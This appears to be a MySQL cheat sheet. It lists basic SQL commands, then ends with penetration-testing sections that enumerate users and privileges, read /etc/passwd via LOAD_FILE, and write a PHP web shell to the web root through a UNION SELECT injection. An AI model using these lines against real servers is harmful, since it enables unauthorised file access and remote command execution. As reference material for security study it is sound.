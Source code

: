 ### Connect To MySQL Database

```sh
mysql -u user -h host -P port -p
```

#### Create Database

```sql
CREATE DATABASE database_name;
```

#### Create Table

```sql
CREATE TABLE logins (
	id INT NOT NULL AUTO_INCREMENT,
    username VARCHAR(100),
    password VARCHAR(100),
    date_of_joining DATETIME
);
```

#### Insert Record

```sql
INSERT INTO table_name (column2, column3) VALUES (column2_value, column3_value), (column2_value, column3_value);
```

This method automatically fills in columns with default values, like the `datetime` field, for example.

#### Drop Record/Table

```sql
DROP TABLE table_name;

ALTER TABLE table_name DROP column_name;
```

#### Alter Record

```sql
ALTER TABLE table_name ADD new_column TYPE; -- TYPE is to be replaced by INT, TEXT or any other type. This creates a new column.

ALTER TABLE table_name RENAME COLUMN new_column TO new_name; -- Renames a column.
```

#### Update Record

```sql
UPDATE table_name SET column1=newvalue1, column2=newvalue2 WHERE condition;
```

#### Sort Results

```sql
SELECT * FROM table_name ORDER BY column DESC, column2 ASC;
```

#### Limiting Results

```sql
SELECT * FROM table_name LIMIT 2;
```

#### Condition

```sql
SELECT * FROM table_name WHERE condition; -- A condition can be `id > 1`, for example.
```

#### Like Clause

```sql
SELECT * FROM table_name WHERE column_name LIKE 'admin%' AND column_name LIKE 'adm_n'; -- Similar to `grep admin*` and `grep adm?n`. AND can also be replaced with OR.
```

#### Make a Column the `PRIMARY KEY`

```sql
PRIMARY KEY (column_name)
```

#### Schemata

```sql
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA
```

#### Get User

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

#### Get Privileges

```sql
SELECT grantee, privilege_type FROM information_schema.user_privileges WHERE user="USERNAME"

SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv" -- Check if `secure_file_priv` has a particular directory.
```

#### Read File

```sql
SELECT LOAD_FILE('/etc/passwd'); -- if the user has the `FILE` privilege
```

#### Write File

```sql
UNION SELECT '<?php system($_REQUEST[0]); ?>' into outfile '/var/www/html/shell.php'; -- This will only work if `secure_file_priv` has no directory. If it does, then you can only write to that directory.
```